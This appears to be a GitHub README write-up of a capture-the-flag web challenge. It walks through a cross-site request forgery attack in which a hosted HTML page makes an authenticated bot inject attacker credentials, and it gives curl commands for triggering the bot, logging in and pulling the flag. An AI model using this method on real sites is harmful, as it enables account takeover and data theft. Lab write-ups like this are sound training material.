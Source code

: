 # Tornadowebservice

# Project Overview
The challenge is to exploiting a vulnerable web application called tornado wed service
Inject new credentials via a Cross-Site Request Forgery attack via hosting an html payload on local system .
Log in with the injected credentials.
Access sensitive data like flags and create a new user from a protected endpoint.

# Tools Used
Kali Linux
Burpsuite
Html
Json
Curl

# Methodology
Enumerate available endpoints and Get and Post requests on burpsuite:
/get_tornados
/update_tornado
/login
/stats
/report_tornado

# Study endpoint behaviors using tools like:
curl
Burp Suite 
browser developer tools

# Planning the Exploit

Find vulnerabilities to create an actionable exploit.
Vulnerability: Cross-Site Request Forgery
The bot is tricked into executing JavaScript on your hosted page and exploit its authenticated session.
Inject malicious data into the application (kittykat user credentials).
Log in and access the protected /stats endpoint.

# Tasks:
Create a malicious JavaScript payload(index.html) to fetch data from /get_tornados.
Update machine details in /update_tornado with injected credentials.
Host this payload as index.html on a local server or on NGROK Public server if you have the subscription.

# Hosting the exploit and exploiting the vulnerability

Firstly make sure to change the ipaddress and your port numbers according to your machine.

Get the status of the Ip Machine to know about it

`curl -X GET "http://94.237.63.109:45919/stats"`

Run the following command to host index.html file http server.

`python -m http.server 1337`

Reporting a Tornado on the Box server.

`curl "http://94.237.59.207:47563/report_tornado?ip=127.0.0.1"`

Inject the new User to the server for getting access and store cookie data

`curl -X POST "http://94.237.59.207:47563/login" \           
-H "Content-Type: application/json" \
-d '{"username": "kittykat", "password": "kittykat"}' \
-c cookie.txt
`
Run the following command to get cookie data.

`curl -X GET "http://94.237.59.207:47563/stats" -b cookie.txt`

Submit the retrived flag.

# Pictures
![Screenshot_2024-11-22_23_34_25](https://github.com/user-attachments/assets/b56d6354-713c-4e9e-8692-8e1b9c355b17)

![Screenshot_2024-11-22_23_51_13](https://github.com/user-attachments/assets/18d85946-bff7-461c-a9d5-4182be43abb7)


![Screenshot_2024-11-22_23_50_53](https://github.com/user-attachments/assets/5d8c63d1-1578-4331-a8b2-85daa8de0eb7)


